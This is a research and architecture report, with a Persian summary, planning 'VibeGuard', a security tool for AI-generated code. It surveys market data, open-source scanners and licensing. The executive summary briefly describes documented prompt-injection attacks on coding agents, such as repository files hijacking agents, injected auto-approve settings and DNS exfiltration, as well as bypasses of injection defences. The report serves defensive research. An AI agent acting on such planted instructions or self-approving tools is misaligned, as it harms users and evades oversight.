

# VibeGuard — Deep Research & Architecture Report

**AI Code Security Agent for AI-Generated / Vibe-Coded Projects** · Research date: 2026-08-17

> **یادداشت اجرایی (فارسی — خلاصهٔ کوتاه):** این سند به انگلیسی نوشته شده است، چون مخاطب نهایی آن یک عامل کدنویس (Claude Code) است. خلاصهٔ تصمیم‌ها: محصول **VibeGuard** یک موتور امنیتی قطعی و آفلاین با یک CLI (`vg`) است؛ سرور MCP، پلاگین Claude Code و GitHub App تنها پوسته‌های نازک روی همان موتور هستند. سه شکاف بازار که بر آن‌ها تمرکز می‌کنیم: (۱) اصلاح خودکار **فقط با تأیید ماشینی** (نرخ اصلاح تمیز مستقل ~۲۶٪ در برابر ادعای ۷۶–۹۰٪ فروشندگان)، (۲) ردهٔ نقص‌های خاص کد تولیدشده با هوش مصنوعی که ابزارهای ایستا نمی‌بینند (۵۵٫۸٪ نرخ آسیب‌پذیری در برابر ۲٫۲٪ تشخیص ابزارها)، و (۳) پویش «ربایش عامل» در سطح مخزن (README/AGENTS.md/CLAUDE.md/issue/PR/MCP config) که هیچ ابزار نگهداری‌شده‌ای امروز انجام نمی‌دهد. هیچ‌جا ادعا نمی‌کنیم چیزی «امن» است؛ زبان ما کاهش ریسک، دفاع لایه‌ای و ریسک باقی‌مانده است.

---

## 1. Executive Summary

### 1.1 The problem

Software is now largely written by machines that have never been measured as competent at security. Measured shares: 84% of developers use or plan to use AI tools and 46% actively distrust their accuracy ([Stack Overflow 2025 Developer Survey](https://stackoverflow.co/company/press/archive/stack-overflow-2025-developer-survey/)); ~49% of production code is reported AI-generated across 2,350 respondents in 14 countries ([Checkmarx survey via CIO](https://www.cio.com/article/4183209/enterprises-know-ai-generated-code-is-vulnerable-theyre-shipping-it-anyway.html)); 25% of the Y Combinator W25 batch had codebases ≥95% AI-generated ([CSA research note](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-generated-code-vulnerability-surge-2026/)); Gartner projects vibe coding will drive 40% of new enterprise production software by 2028 ([Gartner as reported](https://www.techshotsapp.com/technology/gartner-predicts-vibe-coding-will-power-40-of-enterprise-software-by-2028)).

The security quality of that output is measured, repeatedly, and it is poor. Formal verification with Z3 over 3,500 artifacts from 7 LLMs found a **55.8% default vulnerability rate with 1,055 proven-exploitable cases, while combined static tools detected 2.2% and CodeQL security-extended detected 0%** ([Broken by Default](https://vibe-eval.com/updates/broken-by-default-formal-verification/)). BaxBench found "62% of the solutions generated even by the best model are either incorrect or contain a security vulnerability" ([BaxBench](https://baxbench.com/)). Veracode's 2026 measurement puts the average security pass rate at 56% ([Veracode 2026](https://www.veracode.com/blog/2026-genai-code-security-report-ai-risk/)). Telemetry shows the volume effect: AI-assisted developers produced 3–4× more commits and **10× more security findings**, from ~1,000/month to 10,000+/month ([Apiiro](https://apiiro.com/blog/4x-velocity-10x-vulnerabilities-ai-coding-assistants-are-shipping-more-risks/)). Secrets follow the same curve: 28.65M new hardcoded secrets on public GitHub in 2025 (+34% YoY), with **Claude-Code-assisted commits leaking secrets at 3.2% versus a 1.5% baseline** ([GitGuardian](https://blog.gitguardian.com/the-state-of-secrets-sprawl-2026/)).

Simultaneously, the *tooling* that writes this code has become an attack surface of its own. Repository content is now executable-by-proxy: `AGENTS.md`, `CLAUDE.md`, `.cursor/rules/*.mdc`, `.claude/settings.json`, `.mcp.json`, issue bodies, PR titles and even filenames are loaded into an agent's context before any human acts ([CSA README Injection note](https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/)). The consequences are documented CVEs, not theory: `CVE-2025-54135` (Cursor wrote `.cursor/mcp.json` without approval → RCE, [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-54135)), `CVE-2025-54136` (MCP approval bound to key name, not content → persistent RCE, [Check Point](https://research.checkpoint.com/2025/cursor-vulnerability-mcpoison/)), `CVE-2025-53773` (injection writes `"chat.tools.autoApprove": true`, self-propagating, [Embrace The Red](https://embracethered.com/blog/posts/2025/github-copilot-remote-code-execution-via-prompt-injection/)), `CVE-2025-55284` (DNS exfiltration through allowlisted `ping`/`dig`, [Embrace The Red](https://embracethered.com/blog/posts/2025/claude-code-exfiltration-via-dns-requests/)), `CVE-2025-59041` (RCE from `git config user.email` templated *before* the trust dialog, [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-59041)). Field prevalence: 36% of 3,984 scanned agent skills contained prompt injection ([Snyk ToxicSkills](https://snyk.io/blog/toxicskills-malicious-ai-agent-skills-clawhub/)); 392 confirmed prompt injections were found embedded in MCP tool descriptions across nearly 10,000 live developer environments ([Snyk](https://snyk.io/blog/agentic-development-security-ai-coding-risk/)); Unit 42 documents 22 distinct indirect-injection techniques already in the wild ([Unit 42](https://unit42.paloaltonetworks.com/ai-agent-prompt-injection/)).

### 1.2 Why now

Three clocks are running at once.

1. **The defect supply is exploding while detection has not moved.** Independent SAST measurement on 165 real-world Java CVEs: the best single tool detected **12.7%**, and all seven tools combined still missed **70.9%** ([Li, Chen, Fan et al., ESEC/FSE '23](https://sen-chen.github.io/img_cs/pdf/fse2023-sast.pdf)). A 2025 replication on 462 CVEs found file-level true-positive rates of 1.7–5.3% ([Ansgariusson & Ståhl](https://lup.lub.lu.se/luur/download?func=downloadFile&recordOId=9189955&fileOId=9189961)). Rule-and-taint engines are structurally weakest exactly where AI code fails: authorization, business logic and insecure defaults.
2. **The market is consolidating fast and is already crowded with capital.** Snyk absorbed Invariant Labs (Jun 2025) ([Snyk](https://snyk.io/news/snyk-acquires-invariant-labs-to-accelerate-agentic-ai-security-innovation/)); SentinelOne agreed to buy Prompt Security for ~$250M ([Yahoo Finance](https://finance.yahoo.com/news/sentinelone-acquire-prompt-security-250m-182354008.html)); Check Point completed Lakera at ~$300M ([MarketScreener](https://www.marketscreener.com/news/check-point-software-technologies-ltd-completed-the-acquisition-of-lakera-ai-ag-ce7d5dd2dc80f22d)); Sonar acquired Gitar ([PRNewswire](https://www.prnewswire.com/news-releases/sonar-acquires-gitar-expanding-code-verification-platform-to-include-ai-code-review-302778966.html)); Aikido, Socket, XBOW and CodeRabbit all crossed $1B ([Sahm Capital](https://www.sahmcapital.com/news/content/brief-aikido-security-raises-60-million-series-b-at-1-billion-valuation-to-lead-software-security-2026-01-14), [Cooley](https://www.cooley.com/news/coverage/2026/2026-05-20-socket-raises-$60-million-series-c-at-$1-billion-valuation), [XBOW](https://xbow.com/news/xbow-raises-120m-to-scale), [Reuters](https://www.reuters.com/technology/ai-code-review-platform-coderabbit-valued-15-billion-latest-funding-round-2026-08-12/)).
3. **The platform vendors have shipped the easy half and left the hard half open.** OpenAI's Codex Security ships a CLI/SDK plus CI SARIF upload ([Codex Security](https://developers.openai.com/codex/security)); Google's CodeMender runs locally via CLI ([Google Cloud](https://cloud.google.com/blog/products/identity-security/find-and-fix-software-vulnerabilities-with-codemender)); Anthropic's security plugin is free on all plans ([Help Net Security](https://www.helpnetsecurity.com/2026/05/27/anthropic-claude-code-security-guidance-plugin/)). What none of them has solved — and what Anthropic states outright about its own reviewer, that it "is not hardened against prompt injection attacks and should only be used to review trusted PRs" ([claude-code-security-review](https://github.com/anthropics/claude-code-security-review)) — is scanning a repository you do not trust.

### 1.3 What exists

The open-source landscape reviewed here breaks into five clusters, each with a leader and each with a hole.

- **Deterministic scanners** are mature, permissive and boring: Opengrep (LGPL-2.1, 7-day release cadence, [api](https://api.github.com/repos/opengrep/opengrep)), Trivy, Syft, osv-scanner, Gitleaks, zizmor, Checkov, OpenSSF Scorecard. This layer is a solved procurement problem — the trap is licensing, not capability (see §5.3).
- **LLM-grounded detection** has one credible published recipe: IRIS (CodeQL taint + LLM-proposed sources/sinks + LLM triage) detected **55/120** CWE-Bench-Java CVEs versus CodeQL's **27/120** ([IRIS paper](https://arxiv.org/abs/2405.17238)).
- **Autonomous detect-and-patch** peaked at DARPA AIxCC: 54 unique synthetic vulnerabilities found (43 patched) plus 18 real vulnerabilities (11 patched) across >54M LOC ([DARPA](https://www.darpa.mil/news/2025/aixcc-results)). All seven CRSs are open-sourced ([AIxCC archive](https://archive.aicyberchallenge.com/)) but most are archival snapshots, not products.
- **Agent sandboxing / mediation** consolidated on OS-primitive wrappers rather than containers, led by Anthropic's `srt` at 4,983★ in ~10 months ([api](https://api.github.com/repos/anthropic-experimental/sandbox-runtime)), with credential-brokering (matchlock, gondolin, agent-vault) as the strongest emerging pattern because it survives a successful injection.
- **MCP security** has four maintained scanners (snyk/agent-scan, cisco mcp-scanner, ramparts, nova-proximity) and one strong wrapper primitive (trailofbits/mcp-context-protector), and the defensive infrastructure itself carries criticals — `docker/mcp-gateway` has 8 advisories including two criticals ([advisories](https://api.github.com/repos/docker/mcp-gateway/security-advisories)) and `IBM/mcp-context-forge` shipped a hardcoded default `JWT_SECRET_KEY` ([advisories](https://api.github.com/repos/IBM/mcp-context-forge/security-advisories)).

### 1.4 The gap

Four gaps are evidenced, not asserted:

1. **Nobody publishes an exploit-verified fix-correctness number.** Independent measurement of 6,080 AI-generated patches across six CVEs found **26.0% fully successful clean fixes, 49.3% failing to close at least one existing exploit path, and 2.3% fixing the bug while introducing a new security problem** ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/)). AutoPatchBench-Lite puts post-verification success at **5–11%** ([Meta](https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/)). Vendors advertise 76–90% *merge* rates ([Pixee](https://devcuration.substack.com/p/pixee-seed-round), [Nullify](https://www.globenewswire.com/news-release/2026/02/05/3232827/0/en/nullify-closes-seed-funding-round-with-12-5-million-investment-to-scale-growth-of-first-ever-ai-workforce-for-product-security.html)). That is the largest credibility hole in the category.
2. **Conventional SAST provably misses the AI-specific defect classes** (2.2% combined, CodeQL 0% — [Broken by Default](https://vibe-eval.com/updates/broken-by-default-formal-verification/)), so a new taxonomy is required rather than more rules for the old one.
3. **No maintained tool does repo-level agent-hijack triage.** `ctxlint` lints agent context files ([api](https://api.github.com/repos/YawLabs/ctxlint)), `snyk/agent-scan` scans agents/MCP/skills ([api](https://api.github.com/repos/snyk/agent-scan)), `ramparts` covers MCP + skills ([README](https://api.github.com/repos/highflame-ai/ramparts/readme)) — but README/issue/PR/docs injection triage exists only as research. The closest artefact, `Mishit18/claude-code-doctor`, is a single-commit, 1-star repo ([api](https://api.github.com/repos/Mishit18/claude-code-doctor)).
4. **Air-gapped AI remediation is a stated limitation of market leaders** — Checkmarx Developer Assist "requires cloud connectivity and does not work in air-gapped environments" ([comparison](https://www.pixee.ai/blog/checkmarx-vs-veracode)), Veracode is SaaS-only ([pricing summary](https://checkthat.ai/brands/veracode/pricing)) — while the 28.65M-secrets reality makes shipping untrusted repos to a SaaS a risk in itself.

### 1.5 The proposed product: VibeGuard

**VibeGuard (VG)** is an open-core, local-first AI security-engineering agent for AI-generated and vibe-coded repositories. Per directive **D1**, the immovable core is a **standalone deterministic engine plus CLI (`vg`)**, Python 3.12, invoking permissively licensed scanners as subprocesses and normalizing everything to SARIF 2.1.0 plus an internal Finding schema, able to run fully offline. Everything else is a thin adapter: an MCP server (`vg-mcp`) as the primary agent-facing surface, a Claude Code plugin (skill + subagent + hooks) as the distribution wrapper, and a GitHub App (`vg-app`) with a GitHub Action fallback for air-gapped CI. Deliberately excluded from v1: IDE plugins, DAST at scale, and cloud multi-tenant scanning of customer source.

Per directive **D2**, five wedges define the product:

| # | Wedge | Evidence anchor |
|---|---|---|
| W1 | **Verification-first auto-fix** — no patch is called safe until a PoC/property test flips fail→pass, the regression suite passes, and a rescan shows no new findings | 26% independent clean-fix rate ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/)); 5–11% verified on AutoPatchBench ([Meta](https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/)) |
| W2 | **VIBE-xx taxonomy** for AI-code defect classes conventional SAST misses | 55.8% defect rate vs 2.2% static detection, CodeQL 0% ([Broken by Default](https://vibe-eval.com/updates/broken-by-default-formal-verification/)) |
| W3 | **Repo-level agent-hijack scanning** of untrusted instruction content | No maintained tool covers README/issue/PR injection ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/)) |
| W4 | **Local-first / air-gapped with BYO model**, no source egress by default | Air-gap is a stated limitation of incumbents ([Pixee comparison](https://www.pixee.ai/blog/checkmarx-vs-veracode)) |
| W5 | **Calibrated honesty** — published abstention rate, per-detector precision/recall, verified-fix rate; never a claim of "secure" | Fix success collapses to 15.2% under incorrect guidance vs 65% with correct guidance ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/)) |

**What VibeGuard will not claim.** It will not claim any repository, patch or configuration is "secure" or "100% safe". Every output is expressed as risk reduction with a residual-risk statement, a confidence value, and an explicit abstention option. This is not modesty; it is the only position consistent with the measured evidence that adaptive attacks bypassed *all* evaluated prompt-injection defenses with success exceeding 78% ([survey, arXiv 2601.17548](https://arxiv.org/html/2601.17548v1)) and that Trail of Bits bypassed every tested agent-skill scanner including Snyk's, Cisco's and NVIDIA's ([CSA scanner-bypass note](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/)).

---

## 2. Research Methodology

### 2.1 What was searched

Seven parallel research tracks were executed on 2026-08-17, each producing a source-cited dossier retained in the workspace:

| Track | Scope | Artefact |
|---|---|---|
| 01 | Open-source projects for security of AI-generated code and AI-assisted review; DARPA AIxCC CRSs; vibe-coding scanners; slopsquatting defences; auto-fix frameworks; datasets | 47-repo master table + capability matrix |
| 02 | AI coding-agent sandboxing/mediation and MCP security: scanners, gateways, wrappers, registries, sandbox primitives | 64-repo metadata table + per-project dossiers + advisory audit |
| 03 | Prompt injection and exfiltration against coding agents: incidents, CVEs, taxonomy, defenses and their measured limits | 25-incident table + 4-tier detection heuristics |
| 04 | Polyglot SAST/secrets/SCA/SBOM/IaC/container/CI-CD/DAST/LLM-testing scanners: license, cadence, output formats, independent accuracy | ~55-tool matrix + license traps + overlap map |
| 05 | Standards (OWASP, CWE, NIST, MITRE, SLSA, CycloneDX, SPDX, CRA) and benchmarks (SAST corpora + LLM/agent security benchmarks) | Standard-by-standard wiring judgment + benchmark stack |
| 06 | Competitive landscape: 40+ vendors and platform players, funding, pricing, self-host posture, measured vs claimed autofix | Competitor matrix + 8 white-space gaps + 8 failure risks |
| 07 | Integration surfaces: Claude Code (skills/subagents/hooks/plugins/MCP/settings/sandbox/SDK/Action/web), Codex, Cursor, Cline, Copilot, and GitHub platform APIs | Surface-by-surface CAN/CANNOT tables + shipping-vehicle comparison |

### 2.2 How metadata was verified

Repository metadata was not taken from awesome-lists, blog posts or model memory. Every value in the repository tables was read in-session from the GitHub REST API or from the linked page:

- `https://api.github.com/repos/OWNER/NAME` for creation date, stars, forks, language, license SPDX, `archived`, `fork`, `pushed_at`.
- `/commits?per_page=1` on the default branch for last-commit date.
- `/releases` and `/releases/latest` for the latest release and, in track 04, the **median gap in days between consecutive releases** over the most recent window (n ≤ 20), computed in-session.
- `/license` for license-file resolution, used to separate real SPDX values from `NOASSERTION`.
- `/readme` for capability flags and vendor-stated limitations.
- `/security-advisories` for published advisories against the *defensive* tooling.

This produced several corrections that a citation-free write-up would have got wrong:

- `invariantlabs-ai/mcp-scan` **now resolves to `snyk/agent-scan`** — the API returns `"full_name": "snyk/agent-scan"` for the old path ([api](https://api.github.com/repos/invariantlabs-ai/mcp-scan)). Anything pinned to the old name silently follows a redirect.
- `Team-Atlanta/aixcc-afc-atlantis` README says MIT; the [LICENSE file](https://github.com/Team-Atlanta/aixcc-afc-atlantis/blob/main/LICENSE) states GPL-3.0. Treated as GPL-3.0.
- `SunWeb3Sec/llm-sast-scanner` has **no license at all** (`license: null`, `/license` → 404) ([api](https://api.github.com/repos/SunWeb3Sec/llm-sast-scanner)) — all rights reserved.
- `praetorian-inc/noseyparker` and `tenable/terrascan` report `archived: true` ([noseyparker](https://api.github.com/repos/praetorian-inc/noseyparker), [terrascan](https://api.github.com/repos/tenable/terrascan)) despite still appearing in current tool round-ups.
- Ownership moves: `getjavelin/ramparts` → [highflame-ai/ramparts](https://github.com/highflame-ai/ramparts); `microsandbox/microsandbox` → [superradcompany/microsandbox](https://github.com/superradcompany/microsandbox); `mavdol/capsule` → [capsulerun/capsule](https://github.com/capsulerun/capsule).

### 2.3 Verification rules applied

1. **Primary-source rule.** A claim is stated only if a page fetched in-session supports it. Every non-obvious claim in this report carries an inline link to that page.
2. **`n.a.` over inference.** Where a README or doc page is silent, the field reads `n.a.` — meaning "not stated in the fetched page", never "not supported". This is why runtime/performance and offline capability are `n.a.` for most scanners.
3. **Vendor/independent separation.** Vendor self-reported efficacy numbers are labelled and are never used as capability evidence. Independent peer-reviewed or adversarial results are preferred; commissioned third-party evaluation (e.g. Trajectory Labs for Anthropic) is treated as stronger than self-report and weaker than adversarial independent work ([Willison](https://simonwillison.net/2026/Aug/8/auto-mode/)).
4. **Point-in-time honesty.** Star/fork/commit/release figures are snapshots of 2026-08-17.
5. **Absence of advisories is not absence of vulnerability.** "No advisories returned" means the `/security-advisories` endpoint listed none at fetch time.
6. **Synthetic-content exclusion.** A set of domains encountered during search was excluded as likely SEO-synthetic or unverifiable content farms (wraith.sh, safeguard.sh, anomity.ai, failureindex.ai, vibegraveyard.ai, inspectagents.com, agentmelt.com, makerchecker.ai, obfuscated.site, theweatherreport.ai, hyrax.dev, openhermit.com, canyonroad.ai, promptinjection.report, deepinspect.ai, tokenmix.ai).
7. **Score semantics.** Usefulness scores (1–10) are analyst judgment over license fit, maintenance evidence and capability evidence — not a measured metric.

### 2.4 What remained Unverified

The following are carried forward as **Unverified** and must not be treated as facts in downstream design:

- **CamoLeak's CVE assignment.** The discoverer states no CVE; the widely circulated "CVE-2025-59145" attribution is demonstrably wrong — that record is the `color-name` npm compromise ([CVE Program](https://www.cve.org/CVERecord?id=CVE-2025-59145), [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-59145)). **Unverified and conflicting.**
- **CaMeL's AgentDojo utility figure (77%)** — secondary attribution only; the primary PDF extraction did not surface it ([arXiv 2503.18813](https://arxiv.org/pdf/2503.18813)). **Unverified against primary.**
- **CVE-2025-66032 mechanism** — from a search snippet only ([NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-66032)). **Unverified.**
- **Nx payload's use of local AI CLIs** (Claude Code / Gemini CLI / Q CLI) — vendor blog only, absent from the Nx advisory and postmortem ([StepSecurity](https://www.stepsecurity.io/blog/supply-chain-security-alert-popular-nx-build-system-package-compromised-with-data-stealing-malware)). **Unverified.**
- **MITRE ATLAS AML.T0051 sub-technique IDs** — atlas.mitre.org returned HTTP 403; mapping rests on secondary sources ([Microsoft Learn](https://learn.microsoft.com/en-us/security/zero-trust/catalog-ai-attack-techniques/prompt-injection)). **Unverified against primary.**
- **NIST AI 100-2e2025 generative-AI prompt-injection section text** — not captured in this session's extraction ([NIST PDF](https://nvlpubs.nist.gov/nistpubs/ai/NIST.AI.100-2e2025.pdf)). **Unverified.**
- **OpenAI prompt-injection ASR figures** — the GPT-5-Codex system card extraction surfaced refusal and jailbreak tables but no injection ASR. **Unverified.**
- **Several Embrace The Red posts** (Windsurf/SpAIware, AWS Kiro, Antigravity, Clinejection) returned HTTP 403; only the [index](https://embracethered.com/blog/) and three posts were readable. **Unverified beyond index listing.**
- **`highflame-ai/ramparts` last-commit date** — the commits endpoint returned empty right after the ownership move; `pushed_at` is the fallback signal ([api](https://api.github.com/repos/getjavelin/ramparts)). **Unverified.**
- **OWASP Top 10:2025 exact release date**, MITRE ATLAS atlas-data v5.6.0 release **year**, EPSS current model version, in-toto and Sigstore version numbers, and licenses for ARVO / AgentDojo / AutoPenBench / BaxBench code / MCPSecBench — all `n.a.` on their primary pages.
- **`pull_request_target` guidance and the enumerated `permissions:` scope values for `GITHUB_TOKEN`** — the relevant GitHub docs pages returned client errors ([hardening](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions), [GITHUB_TOKEN concepts](https://docs.github.com/en/actions/concepts/security/github_token)). **Unverified.**
- **Codex hook event names and blocking semantics**; **Cline MCP specifics**; **Copilot Chat MCP transports/scopes** — not surfaced in fetched extractions. **Unverified.**
- **No independent accuracy benchmark exists** for Checkov, KICS, Trivy-misconfig, zizmor, poutine, hadolint, Dockle, Kubescape, Scorecard, Nuclei, garak or promptfoo. Their selection rests on license, cadence, output-format fit and category necessity — not measured precision/recall.

---

## 3. GitHub Landscape

### 3.1 Structural overview: seven clusters

Across the 111 repositories catalogued in tracks 01, 02 and 04, the landscape decomposes into seven clusters with markedly different maturity profiles.

| Cluster | Representative leaders | Maturity signal | Structural weakness |
|---|---|---|---|
| **C1 Deterministic scanners** | [Opengrep](https://github.com/opengrep/opengrep), [Trivy](https://github.com/aquasecurity/trivy), [Gitleaks](https://github.com/gitleaks/gitleaks), [osv-scanner](https://github.com/google/osv-scanner), [Checkov](https://github.com/bridgecrewio/checkov), [zizmor](https://github.com/zizmorcore/zizmor), [Scorecard](https://github.com/ossf/scorecard) | Release cadences of 4–13 days ([Trivy 5 d](https://api.github.com/repos/aquasecurity/trivy/releases), [zizmor 0 d](https://api.github.com/repos/zizmorcore/zizmor/releases)) | Measured real-world recall is single-digit to low-double-digit (§5.2) |
| **C2 LLM-grounded SAST / review agents** | [iris](https://github.com/iris-sast/iris), [vulnhuntr](https://github.com/protectai/vulnhuntr), [claude-code-security-review](https://github.com/anthropics/claude-code-security-review), [seclab-taskflow-agent](https://github.com/GitHubSecurityLab/seclab-taskflow-agent) | IRIS 55/120 vs CodeQL 27/120 ([paper](https://arxiv.org/abs/2405.17238)) | Research cadence; vulnhuntr stale ~18 months ([commits](https://api.github.com/repos/protectai/vulnhuntr/commits)); prompt-injection unhardened |
| **C3 AIxCC cyber reasoning systems** | [buttercup](https://github.com/trailofbits/buttercup), [aixcc-afc-atlantis](https://github.com/Team-Atlanta/aixcc-afc-atlantis), [artiphishell](https://github.com/shellphish/artiphishell), [fuzzing-brain](https://github.com/fuzzingbrain/afc-crs-all-you-need-is-a-fuzzing-brain), [sherpa](https://github.com/AIxCyberChallenge/sherpa) | Real capability: 18 real vulns, 11 patched, >54M LOC ([DARPA](https://www.darpa.mil/news/2025/aixcc-results)) | Mostly archival; heavy infra; AGPL/GPL; Theori's README warns a run "can easily spend $1,000 or more in under an hour" |
| **C4 "Skills, not binaries"** | [VibeSec-Skill](https://github.com/BehiSecc/VibeSec-Skill) (1,191★), [llm-sast-scanner](https://github.com/SunWeb3Sec/llm-sast-scanner) (274★), [claude-secure-coding-rules](https://github.com/TikiTribe/claude-secure-coding-rules) (138★) | Cheap to adopt, high star velocity | No engine; quality unverifiable without a benchmark; license hygiene poor |
| **C5 Agent sandboxing / mediation** | [sandbox-runtime](https://github.com/anthropic-experimental/sandbox-runtime) (4,983★), [leash](https://github.com/strongdm/leash), [matchlock](https://github.com/jingkaihe/matchlock), [agent-vault](https://github.com/Infisical/agent-vault), [pipelock](https://github.com/luckyPipewrench/pipelock) | Anthropic reports sandboxing cut permission prompts 84% internally ([Anthropic engineering](https://www.anthropic.com/engineering/claude-code-sandboxing)) | Nearly all self-described experimental; the defences carry their own advisories (§7.4) |
| **C6 MCP security** | [snyk/agent-scan](https://github.com/snyk/agent-scan), [cisco mcp-scanner](https://github.com/cisco-ai-defense/mcp-scanner), [ramparts](https://github.com/highflame-ai/ramparts), [mcp-context-protector](https://github.com/trailofbits/mcp-context-protector) | Vendor-backed, active | Heuristic + LLM-as-judge; bypassed under adaptive test ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/)) |
| **C7 Supply chain / slopsquatting** | [safedep/vet](https://github.com/safedep/vet), [guarddog](https://github.com/DataDog/guarddog), [phantom_guard](https://github.com/matte1782/phantom_guard), [slopguard](https://github.com/WT-MM/slopguard) | vet and guarddog very active, Apache-2.0 | Slopsquatting-specific tools are 0–3-star one-person projects |

**The structural hole is between C6 and C1.** C6 scans MCP surfaces and agent config; C1 scans code; nothing does repository-content injection triage. That is VibeGuard's S1 stage and wedge W3.

### 3.2 Activity trends

Three patterns are visible in the fetched cadence data.

**(a) A 2025-Q1 birth cliff followed by a 2025-Q2 death cliff in MCP tooling.** `mcp-guardian` (created 2025-02-02, last commit 2025-04-10), `mcp-shield` (2025-04-15 → 2025-04-26), `SecureMCP` (2025-06-06 → 2025-06-07), `mcp-injection-experiments` (2025-04-06 → 2025-04-10) and `MCP-Security-Checklist` (2025-04-12 → 2025-04-28) were all created and abandoned inside weeks ([mcp-guardian](https://api.github.com/repos/eqtylab/mcp-guardian), [mcp-shield](https://api.github.com/repos/riseandignite/mcp-shield), [SecureMCP](https://api.github.com/repos/makalin/SecureMCP), [injection-experiments](https://api.github.com/repos/invariantlabs-ai/mcp-injection-experiments), [checklist](https://api.github.com/repos/slowmist/MCP-Security-Checklist)). Several remain the most-cited tools in awesome-lists.

**(b) Vendor-backed projects are the only ones with sustained cadence.** Trivy 5-day, zizmor 0-day, Socket CLI ~0.7-day mean, Checkov 4-day, Semgrep/Opengrep 7-day median release gaps ([Trivy](https://api.github.com/repos/aquasecurity/trivy/releases), [zizmor](https://api.github.com/repos/zizmorcore/zizmor/releases), [socket-cli](https://api.github.com/repos/SocketDev/socket-cli/releases), [Checkov](https://api.github.com/repos/bridgecrewio/checkov/releases), [Opengrep](https://api.github.com/repos/opengrep/opengrep/releases)). Solo projects cluster at 40–460-day gaps — `bundler-audit` at a 463-day median ([releases](https://api.github.com/repos/rubysec/bundler-audit/releases)) — and `detect-secrets` has had no release since 2024-05-06 ([api](https://api.github.com/repos/Yelp/detect-secrets)).

**(c) Star count is decoupled from usefulness in this space.** `usestrix/strix` went from creation on 2025-08-05 to **53,318★ / 5,716 forks** ([api](https://api.github.com/repos/usestrix/strix)) — treat velocity like that with scepticism. Conversely `YawLabs/ctxlint`, the best fit for the agent-config-linting requirement, has **7★** with near-daily releases ([api](https://api.github.com/repos/YawLabs/ctxlint)), and `mimecast/src2sink` has **0★** with SLSA L3 attestations ([api](https://api.github.com/repos/mimecast/src2sink)).

### 3.3 License distribution and where it bites

| License band | Examples | Consequence for an open-core, redistributable product |
|---|---|---|
| **Permissive (Apache-2.0 / MIT / BSD)** — the majority of maintained infrastructure | Trivy, Syft, osv-scanner, Checkov, Scorecard, guarddog, vet, srt, leash, pipelock, cisco mcp-scanner, snyk/agent-scan, mcp-context-protector, matchlock, PatcherY, iris, seclab-taskflow-agent, claude-code-security-review | Safe to embed or subprocess with attribution |
| **Weak copyleft (LGPL-2.1 / LGPL-3.0 / LGPL-2.0)** | [Opengrep](https://api.github.com/repos/opengrep/opengrep), [Semgrep engine](https://github.com/semgrep/semgrep/blob/develop/LICENSE), [njsscan](https://api.github.com/repos/ajinabraham/njsscan), [bubblewrap](https://api.github.com/repos/containers/bubblewrap/license) | Usable as a **separate binary/process**; LGPL obligations attach if you link |
| **Strong copyleft (GPL-3.0 / AGPL-3.0)** | vulnhuntr, buttercup, securevibes, codemodder-python, Theori CRS, TruffleHog, MCP-Defender (AGPL); Atlantis, 42-b3yond-6ug, vibraniumdome, ai-jail, nova-proximity, open-edison, hadolint, bundler-audit (GPL) | Subprocess-only at best; AGPL is hostile to a hosted service |
| **Non-OSI source-available / restricted** | [bearer](https://github.com/Bearer/bearer/blob/main/LICENSE.txt) (Elastic License 2.0), [Brakeman](https://github.com/presidentbeef/brakeman/blob/main/LICENSE.md) (Brakeman Public Use License), [CodeQL CLI](https://github.com/github/codeql-cli-binaries/blob/main/LICENSE.md), [SonarQube analyzers](https://www.sonarsource.com/license/) (SSALv1), [semgrep-rules](https://semgrep.dev/legal/rules-license) | **Excluded.** These forbid the exact use case |
